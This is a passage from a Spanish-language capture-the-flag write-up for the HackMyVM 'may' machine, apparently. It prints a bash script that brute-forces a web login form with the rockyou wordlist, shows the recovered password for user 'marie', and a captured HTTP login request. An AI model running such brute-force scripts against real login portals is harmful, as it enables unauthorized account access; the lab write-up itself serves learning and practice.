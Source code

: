 ```bash
#!/bin/bash

while read pass; do
  resp=$(curl -s -i -X POST http://portal.may.hmv/check.php \
    -H "Content-Type: application/x-www-form-urlencoded" \
    -H "Cookie: Sweetcookie=HMVHMXHMVHMXHMVHMXHMVHMX" \
    -d "user=marie&password=$pass")
  
  # Verifica si la respuesta contiene el mensaje de "user/pass incorrect."
  echo "$resp" | grep -q "user/pass incorrect." || echo "[+] Found: marie:$pass"
done < /usr/share/wordlists/rockyou.txt
```

Vamos a probar con el usuario `marie` si quisieramos con otro cambiamos el campo del `user` por el otro, pero en mi caso probare primero con el usuario `marie`, ahora lo ejecutaremos de la siguiente forma:

```shell
bash forceWeb.sh
```

Info:

```
[+] Found: marie:rebelde
```

Veremos que ha funcionado y hemos encontrado la contraseña de dicho usuario, ahora si entramos con dichas credenciales veremos lo siguiente:

```
Hi marie!Portal is under development too.Come back later
```

## Escalate user marie

No veremos nada interesante, pero si entramos en la que pone `ssh.may.hmv` y metemos las mismas credenciales veremos que no son validas, por lo que vamos a capturar la peticion a ver que esta pasando y veremos esto:

```
POST /check.php HTTP/1.1
Host: ssh.may.hmv
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 27
Origin: http://ssh.may.hmv
Connection: keep-alive
Referer: http://ssh.may.hmv/
Upgrade-Insecure-Requests: 1
Priority: u=0, i

user=marie&password=rebelde
```
